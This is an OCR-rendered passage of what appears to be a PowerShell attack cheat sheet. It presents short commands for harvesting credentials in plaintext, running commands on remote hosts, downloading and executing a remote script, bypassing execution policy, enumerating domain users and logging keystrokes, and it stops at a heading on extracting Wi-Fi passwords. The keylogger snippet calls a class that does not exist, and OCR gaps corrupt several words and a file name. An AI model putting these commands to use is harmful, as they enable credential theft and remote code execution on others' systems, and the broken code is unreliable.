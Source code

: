 ### Retrieving Stored Credentials
Prompts for user credentials and then displays the username and password, useful for credential harvesting.

```powershell
$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password
```

### Executing Remote Commands
Executes a command remotely on a target PC, in this case, listing processes. Requires credentials for the target
system.

```powershell
Invoke-Command -ComputerName TargetPC -ScriptBlock { Get-Process } -Credential (Get-Credential)
```

### Downloading and Executing Scripts from URL
Downloads and executes a PowerShell script from a specied URL. Useful for executing remote payloads.

```powershell
$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object
Net.WebClient).DownloadString($url)
```

### Bypassing Execution Policy for Script Execution
Temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; .\script.ps
```

### Enumerating Domain Users
Retrieves a list of all domain users, including their names, account status, and last logon dates.

```powershell
Get-ADUser -Filter * -Properties * | Select-Object -Property Name, Enabled, LastLogonDate
```

### Capturing Keystrokes

Captures and logs keystrokes to a le, which can be used for gathering sensitive information like passwords.

```powershell
$path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys | Out-File -FilePath $path
```

### Extracting Wi-Fi Profiles and Passwords
Extracts Wi-Fi network proles and their associated passwords stored on the system.
